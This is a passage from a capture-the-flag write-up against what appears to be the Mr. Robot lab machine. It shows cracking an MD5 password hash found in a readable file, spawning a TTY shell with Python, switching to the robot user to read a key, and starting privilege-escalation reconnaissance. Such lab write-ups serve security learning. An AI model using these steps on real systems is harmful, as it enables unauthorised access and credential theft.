 ```shell_session
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

Unfortunately, the user the web server was running as [daemon], didn't have the permission to view this file. Conveniently, however, it did have permission to view the `password.raw-md5` file; the contents of which contained what seemed to be an MD5 checksum of robot's password:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

After finding this, I did a reverse lookup of the hash, to find that the password for the robot account is `abcdefghijklmnopqrstuvwxyz` (yay for weak passwords).

Now that I had the credentials for the robot account, I dropped into a TTY shell, and switched to the robot user to access the second key!

```shell_session
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ cd /home/robot
cd /home/robot
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key*
cat key*
822c73956184f694993bede3eb39f959
robot@linux:~$
```

## Privilege Escalation
I now knew the naming pattern of the key files (i.e. key-\*-of-3.txt), so I thought I'd see if a search for this pattern would return anything by running `find / -name 'key-*-of-3.txt' 2>/dev/null`, which unfortunately returned nothing, other than the second key file within the robot home directory:

```shell_session
robot@linux:~$ find / -name 'key-*-of-3.txt' 2>/dev/null
find / -name 'key-*-of-3.txt' 2>/dev/null
/home/robot/key-2-of-3.txt
robot@linux:~$
```

At this point, it became clear I'm going to have to get root to get the third and final key. To start with, I checked what version of the kernel the machine is using, to find it is 3.13.0-55:

```shell_session
robot@linux:~$ uname -a
uname -a
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
robot@linux:~$
```
